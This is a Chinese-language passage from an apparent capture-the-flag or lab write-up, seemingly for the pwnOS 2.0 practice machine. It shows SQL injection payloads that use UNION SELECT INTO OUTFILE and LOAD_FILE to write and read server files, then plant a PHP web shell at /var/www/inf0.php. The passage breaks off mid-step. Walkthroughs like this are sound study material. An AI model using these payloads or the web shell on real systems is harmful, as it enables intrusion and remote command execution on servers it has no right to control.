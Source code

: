 尝试登陆，但是登陆不成功。

尝试

```sql
' union select 1,2,3,'Test_Fuck',5,6,7,8 into outfile '/var/www/test'-- -
```

写入使用

```sql
' union select 1,2,3,load_file('/var/www/test'),5,6,7,8-- -
```

查看写入的test文件:

![Alt text](/img/game/pwnos2.0/1511857700010.png)

表明可以写入文件，就使用

```sql
' union select null,null,null,"<?php system($_GET['cmd']);?>",null,null,null,null into outfile '/var/www/inf0.php'-- -
```

写shell文件。

使用

```sql
' union select null,null,null,load_file('/var/www/inf0.php'),null,null,null,null-- -
```

查看写入的文件：
